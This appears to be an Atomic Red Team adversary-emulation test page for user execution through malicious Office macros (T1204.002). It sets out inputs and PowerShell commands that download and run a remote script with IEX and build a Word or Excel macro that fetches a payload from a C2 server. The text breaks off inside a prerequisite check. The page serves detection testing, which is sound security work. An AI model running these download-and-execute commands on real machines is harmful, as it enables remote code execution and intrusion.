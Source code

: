 **Supported Platforms:** Windows


**auto_generated_guid:** 5202ee05-c420-4148-bf5e-fd7f7d24850c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| macro_path | Location of file which will be converted to a VBA macro | path | PathToAtomicsFolder/T1204.002/src/test9-GenericPayloadDownload.txt|
| c2_domain | This required variable points to a user defined HTTP server that will host the file_name in the c2_parent_directory. | url | |
| c2_parent_directory | Parent directory where you have the "malicious" file on c2_domain server.
Will default to root directory. Forward slashes are not needed at begining or ending of directory path | path | |
| file_name | "Malicious" file to be downloaded.
This required file needs to be place on the user provided c2 domain
Example file can be found at PathToAtomicsFolder/T1204.002/src/test9-example-payload.txt | string | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/test9-example-payload.txt|
| ms_product | Maldoc application Word or Excel | string | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macroCode = Get-Content "#{macro_path}" -Raw
$URL = "#{c2_domain}" + "/" + "#{c2_parent_directory}"
$macroCode = $macroCode -replace 'serverPath', $URL -replace 'fileName', "#{file_name}"
Invoke-MalDoc -macroCode $macroCode -officeProduct "#{ms_product}"
```

#### Cleanup Commands:
```powershell
Remove-Item "C:\Users\$env:username\Desktop\#{file_name}" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Destination c2_domain name or IP address must be set to a running HTTP server.
##### Check Prereq Commands:
```powershell
if (#{c2_domain}) (exit 0) else (exit 1)
```
##### Get Prereq Commands:
```powershell
Write-Host "Destination c2 server domain name or IP address must be set and reachable for HTTP service"
```
##### Description: Microsoftt #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
```